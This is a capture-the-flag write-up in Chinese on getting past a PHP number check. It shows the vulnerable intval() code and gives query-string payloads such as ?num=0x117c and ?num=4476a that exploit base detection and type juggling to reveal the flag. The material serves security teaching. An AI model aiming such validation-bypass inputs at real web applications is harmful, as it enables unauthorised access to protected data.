 ```Plain Text
if($num==="4476"){<!-- -->   #绕过这个
        die("no no no!"); 
    } 
    if(intval($num,0)===4476){<!-- --> 
        echo $flag; 
    }else{<!-- --> 
        echo intval($num,0); 
    } 


```
`如果 base 是 0，通过检测 var 的格式来决定使用的进制： 因为可以通过进制绕过的方式，我们可以选择 16进制 8进制d等等`

构造payload

```Plain Text
?num=0b1000101111100  转换为二进制
?num=0o10574  转换为八进制没有成功
?num=0x117c  转换为16进制

```
构造2 intval 相当于一个弱语言==

```Plain Text
构造2
使用特征 弱语言特征
4476a php特征
4476a  实际上是==4476
?num=4476a    a\b\c\d都可以


```
```Plain Text
参考羽师傅
intval('4476.0')===4476    小数点  
intval('+4476.0')===4476   正负号
intval('4476e0')===4476    科学计数法
intval('0x117c')===4476    16进制
intval('010574')===4476    8进制
intval(' 010574')===4476   8进制+空格


```
例子3 是例子2的不同

```Plain Text
if($num==4476){<!-- -->   #这个==
        die("no no no!"); 
    } 
    if(intval($num,0)==4476){<!-- --> 
        echo $flag; 
    }else{<!-- --> 
        echo intval($num,0); 

```
用4476a是无法绕过==，弱比较下两者直接相等.
